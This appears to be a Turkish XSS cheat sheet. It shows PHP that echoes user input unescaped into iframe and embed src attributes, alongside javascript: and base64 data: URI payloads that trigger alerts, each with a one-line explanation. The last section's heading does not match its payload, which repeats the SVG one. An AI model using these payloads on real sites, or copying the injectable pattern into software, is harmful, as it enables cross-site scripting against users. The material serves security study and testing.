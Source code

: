 ### iframe tag ile javascript: URI Scheme

```php
<iframe src=\"" . $userInput . "\"></iframe>
```

**Payload**

```
javascript:alert(0)
```

**Nasıl Çalışır:** `src` özniteliği javascript protokolünü adres olarak tanır, frame açmaya çalışınca ve alert tetiklenir.

### iframe tag ile data:text URI Scheme

```php
<iframe src=\"" . $userInput . "\"></iframe>
```

**Payload**

```
data:text/html;base64,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==
```

**Nasıl Çalışır:** `src` özniteliği data protokolünü adres olarak tanır, frame açmaya çalışınca ve base64 içinde yazan payload tetiklenir.

### iframe tag ile data:image URI Scheme

```php
<iframe src=\"" . $userInput . "\"></iframe>
```

**Payload**

```
data:image/svg+xml;base64,PHN2ZyB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciPjxzY3JpcHQ+YWxlcnQoJ1hTUycpPC9zY3JpcHQ+PC9zdmc+
```

**Nasıl Çalışır:** `src` özniteliği data protokolünü adres olarak tanır, frame açmaya çalışınca ve base64 içinde yazan payload tetiklenir.


### embed tag ile javascript: URI Scheme

```php
<embed src="$userInput"></embed>
```

**Payload**

```
data:image/svg+xml;base64,PHN2ZyB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciPjxzY3JpcHQ+YWxlcnQoJ1hTUycpPC9zY3JpcHQ+PC9zdmc+
```
